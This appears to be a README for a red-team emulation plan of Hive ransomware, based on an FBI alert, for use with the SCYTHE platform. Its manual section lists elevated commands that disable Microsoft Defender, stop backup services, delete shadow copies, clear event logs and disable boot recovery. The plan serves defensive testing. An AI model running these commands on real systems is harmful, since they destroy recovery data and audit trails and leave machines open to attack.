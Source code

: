 # Hive Ransomware Adversary Emulation Plan

This threat is based on the FBI Flash Alert on August 25,2021: https://www.ic3.gov/Media/News/2021/210825.pdf

## Summary from Cyber Threat Intelligence
Hive ransomware, which was first observed in June 2021 and likely operates as an affiliate-based ransomware, employs a wide variety oftactics, techniques, and procedures (TTPs), creating significant challenges for defense and mitigation. Hive ransomware uses multiple mechanisms to compromise business networks, including phishing emails with malicious attachments to gain access and Remote Desktop Protocol (RDP) to move laterally once on the network.

After compromising a victim network, Hive ransomware actors exfiltrate data and encrypt files on the network. The actors leave a ransom note in each affected directory within a victim’s system, which provides instructions on how to purchase the decryption software. The ransom note also threatens to leak exfiltrated victim data on the Tor site, “HiveLeaks.”

## Emulate with SCYTHE
**Note this threat, if executed with administrative privileges, will disable services, delete Volume Shadow Copies, delete Windows Event Logs, and modify bootup. For testing purposes, you may want to test in non-production, make an offline backup, and/or or take a snapshot.

1. Download and import the threat in JSON format to your SCYTHE instance 
2. Download the Virtual File System (VFS) files under the VFS folder
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Hive
4. Create a new campaign, selecting HTTPS, and configure your HTTPS communication options.
5. Import from Existing Threat: Hive
6. Launch Campaign
7. Download the EXE and rename it to Winlo_dump_64_SCY.exe

## Emulate Manually
Open an elevated command line interface and run:
- powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
- sc stop LanmanWorkstation
- sc stop SamSs
- sc stop SDRSVC
- sc stop SstpSVc
- sc stop UI0Detect
- sc stop Vmicvss
- sc stop Vmss
- sc stop VSS
- sc stop Wbengine
- sc stop Unistoresvc
- wmic.exe SHADOWCOPY /nointeractive
- wmic.exe shadowcopy delete
- wevtutil.exe cl system
- wevtutil.exe cl security
- wevtutil.exe cl application
- bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
- bcdedit.exe /set {default} recoveryenabled norun